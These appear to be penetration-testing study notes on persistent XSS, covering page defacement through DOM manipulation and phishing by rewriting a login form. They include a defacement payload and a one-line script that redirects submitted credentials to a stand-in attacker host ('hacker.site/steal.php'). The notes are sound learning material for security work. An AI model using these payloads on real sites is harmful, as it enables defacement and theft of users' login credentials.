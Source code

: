   ```
    * When we find a persistent XSS, we are able to change the appearance of the web page by manipulating the DOM.

    * A typical DOM manipulation is useful at modifying the page appearance is the following way:

      * ```
        document.body.innerHTML="<h1>Defaced</h1>";
        ```

    * The DOM object body corresponds to the BODY tag that holds the  page content.

    * By setting its content, we basically replace the current content  with our own.

    

  * ### XSS for Advanced Phishing Attacks

    * Phishing attacks revolve around deceiving the user into thinking a website is a different website.

    * XSS Phishing instead sneakily modifies the **actual website**, increasing the chances of success.

    * Injecting script in a website, gives us complete control over the DOM of the page and we can control  almost everything

    * If Phisher's Objective -> steal login credentials  and  XSS is found on the login page of a website,

      * then only change to make would be in the login FORM, would make sure that the username and password would be redirected to a domain belonging to him

    * ```
      NOTE:
      
      SSL Certs, DNS Checks , blacklists and other phishing Defenses fail miserably in handling XSS phishing because the phishing website is the actual website.
      ```

    * Most basic way in performing XSS Phishing in a simple Login page is to  alter the **ACTION**  parameter of the FROM tag

    * A form tag usually has this structure

      * ```
        <form name="loginform" method="POST" action="/checklogin.cgi">
        ```

    * Inject the following JavaScript

      * ```
        document.forms[0].action="https://hacker.site/steal.php";
        ```

      * the page will remain completely unchanged - no modification to the appearance whatsoever and the URL in the location bar will remain the genuine URL (besides our payload maybe) of the website the victim wants to login to. 

      * SSL will not help the victim either

  * ### BEEF

    * Once got XSS, BEEF is the fastest way to exploit it and gain control of the remote browser
  ```
